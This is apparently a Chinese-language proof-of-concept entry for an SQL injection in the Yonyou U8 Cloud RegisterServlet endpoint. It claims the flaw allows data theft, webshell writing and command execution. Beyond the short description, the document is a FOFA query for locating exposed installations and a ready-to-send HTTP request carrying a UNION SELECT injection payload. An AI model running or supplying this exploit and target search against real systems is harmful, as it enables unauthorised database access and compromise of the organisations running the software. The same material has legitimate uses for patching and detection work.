 ## 用友U8-nc.bs.sm.login2.RegisterServlet存在SQL注入漏洞

用友U8 Cloud nc.bs.sm.login2.RegisterServlet接口存在SQL注入，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

资产测绘
## fofa
```
app="用友-U8-Cloud"
```

## poc
```
GET /servlet/~uap/nc.bs.sm.login2.RegisterServlet?usercode=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,@@version,NULL,NULL,NULL,NULL--%20Jptd HTTP/1.1
Host: 
X-Forwarded-For: 127.0.0.1
Cookie: JSESSIONID=D523370AE42E1D2363160250C914E62A.server
```

